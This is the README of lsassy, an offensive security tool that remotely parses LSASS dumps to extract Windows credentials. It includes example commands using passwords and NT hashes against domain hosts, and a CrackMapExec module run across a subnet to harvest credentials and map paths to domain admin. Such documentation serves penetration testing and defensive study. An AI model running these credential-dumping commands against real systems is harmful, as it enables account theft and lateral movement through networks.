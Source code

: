 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=0.2.4&x2=0)](https://pypi.org/project/lsassy/)

![CME Module example](/assets/cme_lsassy.gif)

Python library to remotely parse lsass dump and extract credentials.
This library uses [impacket](https://github.com/SecureAuthCorp/impacket) projects to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples)                        | Command line examples for standalone and CME module     |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>:/share_name/path/to/lsass.dmp
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](/cme/)

## Examples

### lsassy

```
lsassy ADSEC.LOCAL/jsnow:Winter_is_coming_\!@dc01.adsec.local:/C$/Windows/Temp/lsass.dmp

lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrateur@desktop01.adsec.local:/ADMIN$/lsass.dmp
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound```
```

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

### ChangeLog

```
v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
